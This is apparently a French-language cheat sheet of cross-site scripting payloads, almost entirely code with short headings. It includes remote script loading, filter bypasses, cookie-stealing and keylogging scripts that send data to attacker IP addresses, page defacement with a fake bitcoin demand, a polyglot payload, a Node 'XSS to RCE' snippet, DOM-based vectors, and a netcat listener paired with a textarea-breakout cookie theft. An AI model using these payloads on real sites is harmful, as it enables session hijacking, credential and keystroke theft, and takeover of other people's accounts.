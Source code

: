 Charger un script distant

```html
<script src="http://192.168.45.128/xss.js"></script>
```

Bypasser le mot script filter

```html
<sscriptcript>alert('berty');</sscriptcript>
```

---

#Session-Hijacking
Hijacker une session 

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);
```

```js
fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));
```

---

Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Recuperer le navigateur client

```js
fetch("http://192.168.75.137/?nav="+navigator.userAgent);
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('berty') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('berty')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```

---

# DOM

```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">
"><img src=x onerror=prompt(document.domain);>

<svg/onload="alert(document.domain)">
xss">< ! --><svg/onload=alert(document.domain)>

```



```html
nc -nlvp 9001


</textarea><script>fetch('http://10.11.86.29:9001?cookie=' + btoa(document.cookie) );</script>
```